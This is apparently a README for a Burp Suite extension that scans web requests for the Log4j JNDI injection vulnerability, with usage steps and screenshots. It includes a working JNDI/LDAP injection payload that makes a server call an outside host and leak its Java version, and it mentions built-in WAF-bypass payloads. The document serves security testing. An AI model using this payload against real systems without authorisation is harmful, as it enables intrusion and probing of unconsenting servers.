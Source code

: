 # BurpLog4j2Scan

### How to use
1. Load BurpLog4j2Scan.jar through Extender
![img.png](images/1.png)

2. Right click the request which you want to check and then follow Extensions >Send to BurpLog4j2Scan
![img.png](images/2.png)
3. Be patient and wait for the result, or maybe you can grab a coffee. The scan time could be around 10 minutes for complicated request.
4. Find the result in BurpLog4j2Scan Tab. If vuln exists, you can check the injected request and then further investigate on it.
![img.png](images/3.png)

### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png)

### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)

4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png)

### Features:
1. Cover checking on get,post,json,header
2. Add some bypass waf payloads
3. Accurate detection, and can investigate the detail clearly after vuln has been found.

